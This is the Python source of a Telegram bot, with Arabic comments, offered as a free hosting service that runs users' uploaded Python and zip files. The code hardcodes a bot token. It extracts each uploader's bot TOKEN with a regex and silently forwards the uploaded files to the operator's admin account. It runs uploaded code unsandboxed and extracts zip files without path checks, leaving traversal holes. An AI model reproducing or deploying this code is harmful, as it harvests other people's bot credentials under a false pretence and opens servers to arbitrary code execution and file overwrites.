 # PYTHON ....
# Telegram : @ii_100k - @ttxjx 
# instagram : ****
# Codeder : رماد | ابن بابل 

#ركز 👇 

# هذه الاداة مجانية وليست للبيع الرجاء عدم بيعها ..
# عدم ازالة الحقوق تقديرا لتعبنا وجعلنا نستمر في تقديم مثل هكذا (ادوات او بوتات)..

import telebot
from telebot import types
import subprocess
import os
import re
import zipfile

TOKEN = '7921368969:AAGKM8B8fYQAqDJ9AjUWcRbaoP7-MKVQ-Q0'  # توكنك
bot = telebot.TeleBot(TOKEN)

admin_id = '6191588561'  # ايديك
max_file_size = 100 * 1024 * 1024 

uploaded_files = []
banned_users = set()

@bot.message_handler(commands=['start'])
def start(message):
    markup = types.InlineKeyboardMarkup()
    
    status_button = types.InlineKeyboardButton("حالة البوت 🎗", callback_data='status')
    markup.add(status_button)
    
    upload_py_button = types.InlineKeyboardButton("رفع ملف .py 📤", callback_data='upload_py')
    upload_zip_button = types.InlineKeyboardButton("رفع ملف .zip 📤", callback_data='upload_zip')
    markup.row(upload_py_button, upload_zip_button) 
    
    bot.send_message(message.chat.id, "مرحبا! بك في بوت رفع ملفات بايثون على استضافة \n\n"
                                      "※ يمكنك رفع حتى 1000 ملف \n"
                                      "※ يتم تشغيل الملفات المرفوعه على سيرفر بايثون \n"
                                      "※ لا ترفع ملفات مشبوهه حتى لا يتم حظرك من البوت \n"
                                      "※ اختر نوع الملف الذي تريد رفعه.", reply_markup=markup)

@bot.message_handler(commands=['developer'])
def developer(message):
    markup = types.InlineKeyboardMarkup()
    wevy = types.InlineKeyboardButton("مطور البوت 👨‍🔧", url='https://t.me/ttxjx')
    markup.add(wevy)
    bot.send_message(message.chat.id, "للتواصل مع مطور البوت، اضغط على الزر أدناه:", reply_markup=markup)

@bot.message_handler(content_types=['document'])
def handle_file(message):
    global uploaded_files
    try:
        if message.from_user.id in banned_users:
            bot.reply_to(message, "لقد تم حظرك من استخدام هذا البوت بسبب محاولة سحب ملفات غير مصرح بها.")
            return
        
        file_id = message.document.file_id
        file_name = message.document.file_name

        file_info = bot.get_file(file_id)
        file_size = file_info.file_size

        if file_size > max_file_size:
            bot.reply_to(message, "حجم الملف أكبر من الحد المسموح به (100 ميغابايت).")
            return

        if file_name.endswith('.zip'):
            if file_id not in uploaded_files:
                uploaded_files.append(file_id) 
                downloaded_file = bot.download_file(file_info.file_path)

                upload_path = f"uploads/{file_name}"
                with open(upload_path, 'wb') as new_file:
                    new_file.write(downloaded_file)

                with zipfile.ZipFile(upload_path, 'r') as zip_ref:
                    zip_ref.extractall(os.path.splitext(upload_path)[0]) 

                bot.reply_to(message, f"تم رفع ملف ZIP بنجاح ✅\n\nاسم الملف المرفوع: {file_name}")
                send_to_admin(file_name)
            else:
                bot.reply_to(message, "هذا الملف ZIP قد تم رفعه بالفعل.")

        elif file_name.endswith('.py'):
            if file_id not in uploaded_files:
                uploaded_files.append(file_id)
                downloaded_file = bot.download_file(file_info.file_path)

                upload_path = f"uploads/{file_name}"
                with open(upload_path, 'wb') as new_file:
                    new_file.write(downloaded_file)

                bot_token = get_bot_token(upload_path)
                bot.reply_to(message, f"تم رفع ملف Python بنجاح ✅\n\nاسم الملف المرفوع: {file_name}\nتوكن البوت المرفوع: {bot_token}")
                send_to_admin(file_name)
                install_and_run_uploaded_file(upload_path)
            else:
                bot.reply_to(message, "هذا الملف Python قد تم رفعه بالفعل.")
        
        else:
            bot.reply_to(message, "يرجى رفع ملف بصيغة .zip أو .py فقط.")

    except Exception as e:
        bot.reply_to(message, f"حدث خطأ : {e}")

def send_to_admin(file_name):
    try:
        with open(file_name, 'rb') as file:
            bot.send_document(admin_id, file)
    except Exception as e:
        print(f"Error sending file to admin: {e}")

def install_and_run_uploaded_file(file_name):
    try:
        subprocess.Popen(['pip', 'install', '-r', 'requirements.txt']) 
        subprocess.Popen(['/usr/bin/python3', file_name]) 
    except Exception as e:
        print(f"Error installing and running uploaded file: {e}")

def get_bot_token(file_name):
    try:
        with open(file_name, 'r') as file:
            content = file.read()
            match = re.search(r'TOKEN\s*=\s*[\'"]([^\'"]*)[\'"]', content)
            if match:
                return match.group(1)
            else:
                return "تعذر العثور على التوكن"
    except Exception as e:
        print(f"Error getting bot token: {e}")
        return "تعذر العثور على التوكن"

@bot.callback_query_handler(func=lambda call: True)
def callback_handler(call):
    if call.data == 'upload_py':
        bot.send_message(call.message.chat.id, "يرجى إرسال ملف Python (.py) الذي تريد رفعه.")
    elif call.data == 'upload_zip':
        bot.send_message(call.message.chat.id, "يرجى إرسال ملف ZIP (.zip) الذي تريد رفعه.")
    elif call.data == 'status':
        check_status(call.message)

def check_status(message):
    if uploaded_files:
        file_list = '\n'.join([f"ملف {i+1}: {file_id}" for i, file_id in enumerate(uploaded_files)])
        bot.send_message(message.chat.id, f"الملفات المرفوعة هي:\n{file_list}")
    else:
        bot.send_message(message.chat.id, "لا توجد ملفات مرفوعة حالياً.")

def ban_user(user_id):
    banned_users.add(user_id) 
    bot.send_message(admin_id, f"المستخدم {user_id} تم حظره بسبب محاولة سحب ملفات غير مصرح بها.")

bot.polling()
